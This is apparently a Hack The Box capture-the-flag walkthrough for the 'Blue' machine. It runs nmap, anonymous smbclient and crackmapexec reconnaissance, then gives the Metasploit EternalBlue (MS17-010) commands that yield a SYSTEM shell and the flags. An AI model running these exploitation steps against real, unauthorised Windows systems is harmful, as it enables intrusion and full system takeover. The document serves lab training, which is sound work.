# Blue      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.




Here are the descriptions of the open ports shown in the screenshots:

### **135/tcp (MSRPC)**
Microsoft Windows RPC service used for remote procedure calls.

### **139/tcp (NetBIOS-SSN)**
NetBIOS Session Service, used for sharing files/printers over a Windows network.

### **445/tcp (Microsoft-DS)**
SMB service on Windows 7 Professional SP1, part of the WORKGROUP domain.

### **49152-49157/tcp (MSRPC)**
Dynamic RPC ports used for additional Microsoft Windows RPC communication.

We can see that **SMB** is open.

### smbclient

First of all, it is always worth just searching the resources yourself, even if it does not give any result. Sometimes we can get interesting informations.

Type:

```
smbclient -L \\\\{target ip}\\ --no-pass
```

to see `Sharenames`.



The only `Sharename` that we can fully access and contains something that looks interesting is `Users`.

To open it, type:

```
smbclient \\\\{target ip}\\Users --no-pass
```




I searched all of this using tools and there was nothing that could really help.

Time to look for some **exploit**.

### crackmapexec

I typed:

```
crackmapexec smb {target ip}
```



**SMB Details**: 
   - `signing:False`: SMB signing is disabled, making it **vulnerable** to man-in-the-middle (MITM) attacks.
   - `SMBv1:True`: The server supports SMBv1, a protocol known for serious vulnerabilities like **EternalBlue**.

As machine name is **Blue** we know where we will hit.

**EternalBlue** is a critical exploit developed by the NSA and leaked by the Shadow Brokers in 2017, targeting a vulnerability in the **SMBv1 protocol** on Windows systems **(CVE-2017-0144)**. It allows remote code execution, enabling attackers to gain unauthorized access to vulnerable machines without authentication.

**EternalBlue** was famously used in large-scale cyberattacks like **WannaCry** and **NotPetya**.

### SearchSploit

```
searchsploit EternalBlue
```



There are several exploits for this vulnerability.

Remember that our target system is **Windows 7**.

### Metasploit

In order:

```
msfconsole
```

```
search EternalBlue
```



copy:

```
exploit/windows/smb/ms17_010_eternalblue
```

and type:

```
use exploit/windows/smb/ms17_010_eternalblue
```

then:

```
show options
```



We will have to set up `RHOST` and `LHOST`(as we are connected to **HTB** through **VPN**).

```
set LHOST {your tun0 ip}
```

```
set RHOST {target ip}
```

when it's done, type:

```
run
```

and press `Enter`.



We have a shell.

*If you want to have `Windows` shell type `shell` and press enter. I did it only to execute `whoami` command and then I hit `exit` as I wanted to navigate through system by `Unix` commands as `Metasploit` makes it possible.*


We are **`nt authority\system`** - this is the most powerful account in Windows, even more privileged than the `Administrator` account. It has unrestricted access to all system resources, processes, files, and services.

### Get the user flag

The `user` flag is in the `C:\Users\haris\Desktop` path.



### Get the root flag

`Root` flag is in the `C:\Users\Administrator\Desktop` path.



### Paste the flags

